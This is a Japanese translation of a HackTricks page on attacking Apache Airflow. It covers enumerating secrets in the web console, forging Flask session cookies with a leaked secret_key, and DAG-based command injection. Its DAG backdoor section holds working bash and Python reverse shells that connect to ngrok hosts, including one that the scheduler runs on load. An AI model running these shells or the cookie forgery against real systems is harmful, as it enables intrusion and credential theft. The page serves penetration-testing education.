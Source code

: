 # Apache Airflow セキュリティ

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## 基本情報

[**Apache Airflow**](https://airflow.apache.org)は、**データパイプラインまたはワークフローのスケジューリングとオーケストレーション**に使用されます。データパイプラインのオーケストレーションとは、多様なソースからの複雑な**データパイプラインのシーケンシング、調整、スケジューリング、および管理**を指します。これらのデータパイプラインは、ビジネスインテリジェンスアプリケーションや、ビッグデータアプリケーションをサポートするデータサイエンス、機械学習モデルによって消費される準備ができたデータセットを提供します。

基本的に、Apache Airflowを使用すると、何か（イベント、cron）が**発生したときにコードの実行をスケジュールすることができます**。

## ローカルラボ

### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)から**docker-compose設定ファイル**を使用して、完全なapache airflow docker環境を起動できます。（MacOSを使用している場合は、docker VMに少なくとも6GBのRAMを割り当てるようにしてください）。

### Minikube

**apache airflowを実行する**簡単な方法の一つは、**minikubeで実行する**ことです：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow 設定

Airflowは**機密情報**を設定に保存することがあるか、または弱い設定が存在する可能性があります：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflowを攻撃する前に、**権限の仕組み**を理解する必要があります：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 攻撃

### Webコンソール列挙

**Webコンソールへのアクセス**がある場合、以下の情報の一部または全部にアクセスできる可能性があります：

* **変数**（カスタム機密情報がここに保存される可能性があります）
* **接続**（カスタム機密情報がここに保存される可能性があります）
* `http://<airflow>/connection/list/`でアクセス
* [**設定**](./#airflow-configuration)（**`secret_key`** やパスワードなどの機密情報が保存される可能性があります）
* **ユーザー & ロール**のリスト
* **各DAGのコード**（興味深い情報が含まれている可能性があります）

### 変数値の取得

変数はAirflowに保存され、**DAG**がその値に**アクセス**できるようになっています。他のプラットフォームのシークレットに似ています。**十分な権限**があれば、`http://<airflow>/variable/list/`のGUIでアクセスできます。\
デフォルトではAirflowはGUIで変数の値を表示しますが、[**これ**](https://marclamberti.com/blog/variables-with-apache-airflow/)によると、**値**がGUIで**アスタリスク**として表示される**変数リスト**を設定することが可能です。

![](<../../.gitbook/assets/image (79).png>)

しかし、これらの**値**は**CLI**（DBアクセスが必要）、**任意のDAG**実行、変数エンドポイントにアクセスする**API**（APIを有効にする必要があります）、そして**GUI自体**を介しても**取得**できます！\
****GUIからこれらの値にアクセスするには、アクセスしたい変数を**選択**し、**Actions -> Export**を**クリック**します。\
別の方法は、**検索フィルタリング**を使用して**隠された値**に対して**ブルートフォース**を実行し、それを取得することです：

![](<../../.gitbook/assets/image (30).png>)

### 権限昇格

**`expose_config`** 設定が**True**に設定されている場合、**Userロール**以上のユーザーはWebで**設定を読む**ことができます。この設定には**`secret_key`**が表示されるため、このキーを持つ任意のユーザーは、他のユーザーアカウントになりすますための自分自身の署名付きクッキーを**作成**できます。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG バックドア (Airflow ワーカー内の RCE)

**DAGが保存されている場所**に**書き込みアクセス権**がある場合、**リバースシェル**を送信する**DAGを作成**することができます。\
このリバースシェルは **airflow ワーカーコンテナ**内で実行されることに注意してください：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG バックドア (Airflow スケジューラー内の RCE)

コードのルートで**実行されるように設定**すると、この文章を書いている時点で、DAGのフォルダ内に配置してから数秒後に**スケジューラーによって実行されます**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG 作成

DAG クラスター内のマシンを**侵害することに成功した場合**、`dags/` フォルダーに新しい **DAGs スクリプト**を作成すると、それらは DAG クラスター内の**残りのマシンに複製されます**。

### DAG コードインジェクション

GUI から DAG を実行するとき、それに**引数を渡す**ことができます。\
したがって、DAG が適切にコーディングされていない場合、**コマンドインジェクションに対して脆弱**になる可能性があります。\
これはこの CVE で起こったことです: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

DAG でコマンドインジェクションを**探し始めるために知っておくべきこと**は、**パラメーター**が **`dag_run.conf.get("param_name")`** のコードで**アクセスされる**ということです。

さらに、同じ脆弱性が**変数**で発生する可能性があります（十分な権限があれば、GUI で変数の値を**制御できる**ことに注意してください）。変数は次のように**アクセスされます**：
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
例えばbashコマンド内で使用される場合、コマンドインジェクションを実行することができます。

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを**共有する**。

</details>
